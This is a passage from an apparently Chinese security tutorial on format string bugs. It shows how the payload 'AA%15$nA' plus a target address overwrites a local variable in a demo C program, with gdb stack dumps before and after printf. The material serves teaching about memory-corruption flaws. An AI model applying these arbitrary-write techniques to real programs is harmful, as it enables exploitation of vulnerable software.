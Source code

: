 ##### 覆盖为小数字

尝试将`arg2` 的值更改为2（按照上面覆盖内存的方法，最少有地址占去了4个字节，那么比4小的数是否能够成功呢？）

前面是地址都位于格式字符串之前，这里可以产生尝试地址为格式化字符串之后

分析：`"AA%15$nA"+"\x08\xce\xff\xff"`，开头的 `AA` 占两个字节，即将地址赋值为 `2`，中间是 `%15$n` 占 5 个字节，这里不是 `%13$n`，因为地址被我们放在了后面，在格式字符串的第 15 个参数，后面跟上一个 `A` 占用一个字节。于是前半部分总共占用了 2+5+1=8 个字节，刚好是两个参数的宽度，这里的 8 字节对齐十分重要。最后再输入我们要覆盖的地址 `\x08\xce\xff\xff`

第一步：在printf处设置断点，这是执行printf之前的栈情况

```
[------------------------------------stack-------------------------------------]
0000| 0xffffcdfc --> 0x8048517 (<main+124>:	add    esp,0x20)
0004| 0xffffce00 --> 0xffffce34 ("AA%15$nA\b\316\377\377")
0008| 0xffffce04 --> 0x1 
0012| 0xffffce08 --> 0x88888888 
0016| 0xffffce0c --> 0xffffffff 
0020| 0xffffce10 --> 0xffffce2a ("ABCD")
0024| 0xffffce14 --> 0xffffce34 ("AA%15$nA\b\316\377\377")
0028| 0xffffce18 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
```

第二步：输入`AA%15$nA"+"\x08\xce\xff\xff`格式化字符串,printf函数执行后栈情况

```
[------------------------------------stack-------------------------------------]
0000| 0xffffce00 --> 0xffffce34 ("AA%15$nA\b\316\377\377")
0004| 0xffffce04 --> 0x1 
0008| 0xffffce08 --> 0x2 
0012| 0xffffce0c --> 0xffffffff 
0016| 0xffffce10 --> 0xffffce2a ("ABCD")
0020| 0xffffce14 --> 0xffffce34 ("AA%15$nA\b\316\377\377")
0024| 0xffffce18 --> 0x80481fc --> 0x38 ('8')
0028| 0xffffce1c --> 0xffffce88 --> 0xf7e13dc8 --> 0x2b76 ('v+')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048517 in main () at formatSee.c:7
7	    printf(format, arg1, arg2, arg3, arg4);
gdb-peda$ x /20x $esp
0xffffce00:	0xffffce34	0x00000001	0x00000002	0xffffffff
0xffffce10:	0xffffce2a	0xffffce34	0x080481fc	0xffffce88
0xffffce20:	0xf7ffda74	0x00000001	0x42413490	0x00004443
0xffffce30:	0x00000000	0x31254141	0x416e2435	0xffffce08
0xffffce40:	0xffffce00	0x00000001	0x000000c2	0xf7e969db
```

对比 printf() 函数执行前后的输出，printf 首先解析 %15$n 找到获得地址 0xffffce3c 的值 0xffffce08，然后跳转到地址 0xffffce08，将它的值 0x88888888 覆盖为 0x00000002，就得到 arg2=0x00000002

##### 覆盖为大数字

前面的方法直接输入一个地址的十进制就可以进行赋值，可是，这样占用的内存空间太大，往往会覆盖掉其他重要的地址而产生错误。其实我们可以通过长度修饰符来更改写入的值的大小：
